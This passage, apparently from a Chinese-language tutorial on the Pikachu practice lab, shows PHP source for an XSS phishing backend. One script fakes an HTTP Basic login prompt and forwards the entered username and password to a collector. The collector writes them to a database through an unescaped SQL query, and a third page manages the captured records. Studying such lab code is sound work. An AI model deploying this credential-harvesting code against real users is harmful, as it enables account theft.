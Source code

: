    ```php
   <?php
   error_reporting(0);
   // var_dump($_SERVER);
   if ((!isset($_SERVER['PHP_AUTH_USER'])) || (!isset($_SERVER['PHP_AUTH_PW']))) {
    //发送认证框，并给出迷惑性的info
       header('Content-type:text/html;charset=utf-8');
       header("WWW-Authenticate: Basic realm='认证'");
       header('HTTP/1.0 401 Unauthorized');
       echo 'Authorization Required.';
       exit;
   } else if ((isset($_SERVER['PHP_AUTH_USER'])) && (isset($_SERVER['PHP_AUTH_PW']))){
    // 将结果发送给搜集信息的后台,请将这里的IP地址修改为管理后台的IP
       // 无法正常获取用户名及密码？答：删除下述这行代码的多余空格，使其占一行就好啦！
       // 参考文章：https://wiki.bafangwy.com/doc/370/
       header("Location: http://127.0.0.1/pikachu/pkxss/xfish/xfish.php?username={$_SERVER[PHP_AUTH_USER]}&password={$_SERVER[PHP_AUTH_PW]}");
   }
   
   ?>
   ```

2. `xfish.php`：获取用户输入的账号数据，并将其写入到数据库中

   ```php
   <?php
   error_reporting(0);
   include_once '../inc/config.inc.php';
   include_once '../inc/mysql.inc.php';
   $link=connect();
   
   if(!empty($_GET['username']) && !empty($_GET['password'])){
       $username=$_GET['username'];
       $password=$_GET['password'];
       $referer="";
       $referer.=$_SERVER['HTTP_REFERER'];
       $time=date('Y-m-d g:i:s');
       $query="insert fish(time,username,password,referer) 
       values('$time','$username','$password','$referer')";
       $result=mysqli_query($link, $query);
   }
   ?>
   ```

3. `pkxss_fish_result.php`：用于管理获取的数据

   ```php
   <?php
   error_reporting(0);
   include_once '../inc/config.inc.php';
   include_once '../inc/mysql.inc.php';
   $link=connect();
   
   // 判断是否登录，没有登录不能访问
   if(!check_login($link)){
       header("location:../pkxss_login.php");
   }
   
   if(isset($_GET['id']) && is_numeric($_GET['id'])){
       $id=escape($link, $_GET['id']);
       $query="delete from fish where id=$id";
       execute($link, $query);
   }
   ?>
   
   <html>
   ```